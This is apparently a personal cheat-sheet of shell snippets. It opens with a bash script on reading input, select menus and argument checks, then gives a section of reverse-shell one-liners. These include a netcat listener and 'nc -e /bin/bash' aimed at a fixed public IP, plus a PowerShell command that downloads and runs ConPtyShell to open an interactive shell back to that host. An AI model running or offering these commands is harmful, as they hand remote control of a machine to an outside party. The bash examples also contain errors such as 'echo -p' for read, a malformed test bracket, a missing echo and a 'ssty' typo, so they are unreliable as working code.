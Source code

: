 ```bash
echo "What is your name?"
read name

echo "Password"
read -s pass

echo -p "THis is one line question?" animal

select animal in "cat" "dog" "bird" "fish"
do
    echo "You selected $animal"
    break
done

select option in "cat" "dog" "quit"
do
    case $option in
        cat) echo "You select Cat";;
        dog) echo "You select Dog";;
        quit) break;;
        *) "Wrong input";;
    esac
done

if [ $# -lt 3]; then
    cat <<- EndOfText
        This requires three arguments:
        username, userid, and favorite number.
EndOfText
    
else
    echo "$1 $2 $3"
fi

read -p "Favorite animal? [cat] " a
while [[ -z "$a" ]]; do
    a="cat"
done
echo "$a was selected."


```


# How to run command without selection
DEBIAN_FRONTEND="noninteractive" apt-get install --yes python-opencv


# reverse shells with netcat
```
nc -lnvp 87 -s 69.164.204.158
# listen, nodns, verbose, port ( listener

nc -e /bin/bash 69.164.204.158 87



ssty raw -echo; (stty size;cat) | nc -lnvp 87 -s 69.164.204.158
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 69.164.204.158 87

```